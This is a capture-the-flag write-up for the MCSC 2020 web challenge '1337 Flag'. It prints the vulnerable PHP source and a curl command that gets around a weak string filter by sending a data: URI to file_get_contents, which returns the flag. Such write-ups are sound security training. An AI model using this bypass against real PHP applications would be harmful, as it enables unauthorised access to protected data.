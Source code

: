 ## MCSC 2020
### 1337 Flag (Web)

![1337 Flag](./img/ss1.png)

Let's check out that page

```php
<?php

require_once('flag.php');
error_reporting(0);

if(!isset($_POST['msg'])){
    highlight_file(__FILE__);
    die();
}

$msg = $_POST['msg'];
$msg = str_replace( array( "php","/" ), "", $msg );
if(@file_get_contents($msg)!=="133720"){
    die();
}

echo $flag;

```
It shows its source code
But we can see here
```php
$msg = $_POST['msg'];
$msg = str_replace( array( "php","/" ), "", $msg );
if(@file_get_contents($msg)!=="133720"){
    die();
}
```
we can see POST parameter ```$msg```
But, ```php``` and ```/``` in msg will be removed. So, we can't exploit with ```Remote File```.

But ```Data wrapper``` will work
```php
data:,133720
```
So, let's exploit it
[Here I use command ```curl```]
```shell
curl -d 'msg=data:,133720' -X POST http://103.89.49.14/a38e83e34ef85b1ed944e40c2a5eb481/index.php
```
Outputs
> MCSC{PHP_With_Data_UrI_LeaRning}

Bingo!!!

*Author ( A'P Jake )*